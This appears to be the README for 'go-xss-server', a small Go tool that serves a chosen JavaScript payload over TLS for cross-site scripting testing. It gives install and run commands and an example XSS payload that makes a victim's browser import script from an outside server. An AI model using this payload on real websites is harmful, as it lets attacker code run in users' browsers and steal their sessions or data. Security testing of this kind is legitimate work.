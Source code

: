 ## go-xss-server

#### Overview

 Simple TLS-enabled Go server that responds to any request with the defined JavaScript payload.

#### Usage

To install either clone or use `go install github.com/redskal/go-xss-server@latest`

To run:
 - `./xss-server -key privkey.pem -crt fullchain.pem [-js script_file.js] [-s listener_addr]`

Example XSS payload:
 - `<img src=x onerror=import('//server.domain/')>`

